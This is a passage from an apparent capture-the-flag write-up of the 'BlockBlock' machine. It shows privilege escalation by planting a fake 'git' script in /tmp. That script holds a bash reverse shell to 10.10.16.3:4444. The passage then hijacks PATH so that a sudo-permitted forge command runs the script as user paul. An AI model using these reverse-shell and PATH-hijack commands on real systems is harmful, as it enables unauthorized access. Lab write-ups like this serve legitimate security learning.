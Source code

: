 ```bash
touch /tmp/git;echo '#!/bin/bash' >> /tmp/git; echo "bash -c 'sh -i >& /dev/tcp/10.10.16.3/4444 0>&1'" >> /tmp/git;
```

<br/> 
<img src="/img/BlockBlock_screenshots/Pasted image 20241121021510.png" alt="1" style="width:700px; height:auto;">
<br/>

Make it `executable` and run the vulnerable command.    

```bash
chmod 777 git ;PATH=/tmp:$PATH sudo -u paul /home/paul/.foundry/bin/forge completions bash
```

<br/> 
<img src="/img/BlockBlock_screenshots/Pasted image 20241121021643.png" alt="1" style="width:700px; height:auto;">
<br/>

Check the `listener`.   

<br/> 
<img src="/img/BlockBlock_screenshots/Pasted image 20241121021703.png" alt="1" style="width:700px; height:auto;">
<br/>

We are in as `paul`. Checking `sudo` permissions.   

<br/> 
<img src="/img/BlockBlock_screenshots/Pasted image 20241121021727.png" alt="1" style="width:700px; height:auto;">
<br/>

